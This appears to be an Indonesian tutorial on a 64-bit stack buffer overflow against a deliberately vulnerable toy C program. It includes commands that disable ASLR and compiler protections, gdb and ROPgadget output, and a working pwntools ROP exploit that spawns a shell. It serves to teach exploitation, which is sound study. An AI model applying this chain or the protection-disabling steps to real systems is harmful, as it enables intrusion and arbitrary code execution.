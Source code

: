 [x] NO Canary ~ -fno-stack-protector
[x] NO PIE ~ -no-pie
[x] NO NX ~ -z execstack
[x] NO ASLR ~ echo 0 > /proc/sys/kernel/randomize_va_space

sourcenya sama dengan yang 32 bit (0x03-fungsi dengan param - 32)

```c
#include<stdio.h>

void hackrich(int a, int b)
{
    if(a==0x10 && b==0x15)
    {
        printf("Hacked !!!!!\n");
        system("/bin/sh");
    }
    else if(a==0x10)
    {
	    printf("your second parameter is wrong!! \n");
    }
    else
    {
	    printf("you are NOOB !!\n");
    }
}

void foo()
{
    char buffer[40];
    puts("give me your input :)\n");
    gets(buffer);
}

void main()
{
    foo();
}
```

kita kompile dengan cara seperti ini untuk supaya tidak ada perlindungan Canary,NX,PIE

```bash
gcc -g -m64 -fno-stack-protector -z execstack -no-pie -o vuln64 vuln_program.c
```

setting disable untuk perlindungan ASLR pada sistem operasi linux

```bash
echo 0 > /proc/sys/kernel/randomize_va_space
```

pada aplikasi yang dikompilasi dengan 64 bit

jalankan program vuln64 dengan gdb kemudian lakukan checksec

```bash
$gdb -q vuln64
gdb-peda$ checksec 
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial
```

parameter disimpan pada register tidak seperti 32bit pada memory

parameter 1 disimpan di RDI
parameter 2 disimpan di RSI
parameter 3 disimpan di RDX
parameter 4 disimpan di RCX
parameter 5 disimpan di R8
parameter 6 disimpan di R9

untuk mengisi register diatas harus mengarahkan RIP ke fungsi hackrich tapi kemudian harus diarahkan ke gadget untuk mendapatkan isi param sesuai operasi

untuk mendapat gadget dari vuln64

```bash
ROPgadget --binary=./vuln64
Gadgets information
============================================================
0x0000000000401089 : add ah, dh ; nop dword ptr [rax + rax] ; ret
0x0000000000401057 : add al, byte ptr [rax] ; add byte ptr [rax], al ; jmp 0x401020
0x00000000004011cf : add al, ch ; retf 0xffff
0x00000000004010bb : add bh, bh ; loopne 0x401125 ; nop ; ret
0x00000000004011cd : add byte ptr [rax], al ; add al, ch ; retf 0xffff
0x0000000000401037 : add byte ptr [rax], al ; add byte ptr [rax], al ; jmp 0x401020
0x0000000000401138 : add byte ptr [rax], al ; add byte ptr [rax], al ; nop dword ptr [rax] ; jmp 0x4010d0
0x0000000000401088 : add byte ptr [rax], al ; hlt ; nop dword ptr [rax + rax] ; ret
0x0000000000401039 : add byte ptr [rax], al ; jmp 0x401020
0x000000000040113a : add byte ptr [rax], al ; nop dword ptr [rax] ; jmp 0x4010d0
0x0000000000401034 : add byte ptr [rax], al ; push 0 ; jmp 0x401020
0x0000000000401044 : add byte ptr [rax], al ; push 1 ; jmp 0x401020
0x0000000000401054 : add byte ptr [rax], al ; push 2 ; jmp 0x401020
0x000000000040108e : add byte ptr [rax], al ; ret
0x0000000000401009 : add byte ptr [rax], al ; test rax, rax ; je 0x401012 ; call rax
0x000000000040108d : add byte ptr [rax], r8b ; ret
0x0000000000401127 : add byte ptr [rcx], al ; pop rbp ; ret
0x00000000004010ba : add dil, dil ; loopne 0x401125 ; nop ; ret
0x0000000000401047 : add dword ptr [rax], eax ; add byte ptr [rax], al ; jmp 0x401020
0x0000000000401128 : add dword ptr [rbp - 0x3d], ebx ; nop dword ptr [rax + rax] ; ret
0x0000000000401013 : add esp, 8 ; ret
0x0000000000401012 : add rsp, 8 ; ret
0x00000000004011d4 : call qword ptr [rax + 0x1f0fc35d]
0x000000000040119b : call qword ptr [rax + 0x4855c3c9]
0x0000000000401178 : call qword ptr [rax + 0x7d8320eb]
0x0000000000401010 : call rax
0x0000000000401042 : fisubr dword ptr [rdi] ; add byte ptr [rax], al ; push 1 ; jmp 0x401020
0x0000000000401224 : fmul qword ptr [rax - 0x7d] ; ret
0x000000000040108a : hlt ; nop dword ptr [rax + rax] ; ret
0x000000000040100e : je 0x401012 ; call rax
0x00000000004010b5 : je 0x4010c0 ; mov edi, 0x404040 ; jmp rax
0x00000000004010f7 : je 0x401100 ; mov edi, 0x404040 ; jmp rax
0x000000000040103b : jmp 0x401020
0x0000000000401140 : jmp 0x4010d0
0x000000000040117a : jmp 0x40119c
0x00000000004010bc : jmp rax
0x000000000040119d : leave ; ret
0x0000000000401032 : loop 0x401063 ; add byte ptr [rax], al ; push 0 ; jmp 0x401020
0x00000000004010bd : loopne 0x401125 ; nop ; ret
0x0000000000401122 : mov byte ptr [rip + 0x2f17], 1 ; pop rbp ; ret
0x00000000004010b7 : mov edi, 0x404040 ; jmp rax
0x0000000000401179 : nop ; jmp 0x40119c
0x000000000040119c : nop ; leave ; ret
0x00000000004011d5 : nop ; pop rbp ; ret
0x00000000004010bf : nop ; ret
0x000000000040108b : nop dword ptr [rax + rax] ; ret
0x000000000040113c : nop dword ptr [rax] ; jmp 0x4010d0
0x000000000040123d : nop dword ptr [rax] ; ret
0x00000000004010b6 : or dword ptr [rdi + 0x404040], edi ; jmp rax
0x0000000000401234 : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000401236 : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000401238 : pop r14 ; pop r15 ; ret
0x000000000040123a : pop r15 ; ret
0x0000000000401233 : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000401237 : pop rbp ; pop r14 ; pop r15 ; ret
0x0000000000401129 : pop rbp ; ret
0x000000000040123b : pop rdi ; ret
0x0000000000401239 : pop rsi ; pop r15 ; ret
0x0000000000401235 : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000401036 : push 0 ; jmp 0x401020
0x0000000000401046 : push 1 ; jmp 0x401020
0x0000000000401056 : push 2 ; jmp 0x401020
0x0000000000401016 : ret
0x00000000004011d1 : retf 0xffff
0x000000000040100d : sal byte ptr [rdx + rax - 1], 0xd0 ; add rsp, 8 ; ret
0x0000000000401052 : shr byte ptr [rdi], cl ; add byte ptr [rax], al ; push 2 ; jmp 0x401020
0x0000000000401245 : sub esp, 8 ; add rsp, 8 ; ret
0x0000000000401244 : sub rsp, 8 ; add rsp, 8 ; ret
0x000000000040100c : test eax, eax ; je 0x401012 ; call rax
0x00000000004010b3 : test eax, eax ; je 0x4010c0 ; mov edi, 0x404040 ; jmp rax
0x00000000004010f5 : test eax, eax ; je 0x401100 ; mov edi, 0x404040 ; jmp rax
0x000000000040100b : test rax, rax ; je 0x401012 ; call rax

Unique gadgets found: 72
```

untuk mencari param ke satu dilakukan sebagai berikut

```bash
$ROPgadget --binary=./vuln64| grep -i 'pop rdi'
0x000000000040123b : pop rdi ; ret
```

untuk mencari param ke dua dilakukan sebagai berikut

```bash
$ROPgadget --binary=./vuln64| grep -i 'pop rsi'
0x0000000000401239 : pop rsi ; pop r15 ; ret
```

sebelumnya mencari lokasi sampai EBP adalah sebagai berikut

```bash
gdb-peda$ pattern create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
gdb-peda$ run
Starting program: /root/You_Tube/Stack_Buffer_Overflow/2/vuln64 
give me your input :)

AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x7fffffffe4e0 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
RBX: 0x0 
RCX: 0x7ffff7fb4a00 --> 0xfbad2288 
RDX: 0x7ffff7fb68d0 --> 0x0 
RSI: 0x405671 ("AA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL\n")
RDI: 0x7fffffffe4e1 ("AA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
RBP: 0x4147414131414162 ('bAA1AAGA')
RSP: 0x7fffffffe518 ("AcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
RIP: 0x4011c6 (<foo+39>: ret)
R8 : 0x4056d5 --> 0x0 
R9 : 0x0 
R10: 0x405010 --> 0x0 
R11: 0x246 
R12: 0x401060 (<_start>: xor    ebp,ebp)
R13: 0x7fffffffe600 --> 0x1 
R14: 0x0 
R15: 0x0
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x4011bf <foo+32>: call   0x401050 <gets@plt>
   0x4011c4 <foo+37>: nop
   0x4011c5 <foo+38>: leave  
=> 0x4011c6 <foo+39>: ret    
   0x4011c7 <main>: push   rbp
   0x4011c8 <main+1>: mov    rbp,rsp
   0x4011cb <main+4>: mov    eax,0x0
   0x4011d0 <main+9>: call   0x40119f <foo>
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe518 ("AcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0008| 0x7fffffffe520 ("AAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0016| 0x7fffffffe528 ("IAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0024| 0x7fffffffe530 ("AJAAfAA5AAKAAgAA6AAL")
0032| 0x7fffffffe538 ("AAKAAgAA6AAL")
0040| 0x7fffffffe540 --> 0x4c414136 ('6AAL')
0048| 0x7fffffffe548 --> 0x4011c7 (<main>: push   rbp)
0056| 0x7fffffffe550 --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x00000000004011c6 in foo () at vuln_program.c:29
29 }
gdb-peda$ pattern offset 0x4147414131414162
4703800084066812258 found at offset: 48

```

sehingga sampai RBP akhir = 48 bytes + 8 bytes (64 bit) = 56

![[stack-frame-64-dengan-param.png]]

karena penggunaan pwn memudahkan untuk penulisan 64 bit yang banyak 0 nya
contoh untuk alamat pop rdi ; ret  0x000000000040123b bisa cukup ditulis dengan p64(0x40123b)

sehingga exploit untuk source diatas adalah sebagai berikut

```python
# padding --> 56
# hackrich --> 0x401142
# pop rdi ; ret -->0x40123b 
# pop rsi ; pop r15 ; ret -->0x401239

from pwn import *
p = process('./vuln64')
print(p.recv())
padding = b'A'*56
pop_rdi = p64(0x40123b)
val_rdi = p64(0x10)
pop_rsi_pop_r15 = p64(0x401239)
val_rsi = p64(0x15)
val_r15 = p64(0x0)
hackrich = p64(0x401142)

p.sendline(padding+pop_rdi+val_rdi+pop_rsi_pop_r15+val_rsi+val_r15+hackrich)
print(p.clean())
p.interactive()

```

hasilnya sebagai berikut

```bash
$python3 exploit64.py 
[+] Starting local process './vuln64': pid 16784
b'give me your input :)\n'
b'\nHacked !!!!!\n'
[*] Switching to interactive mode
```
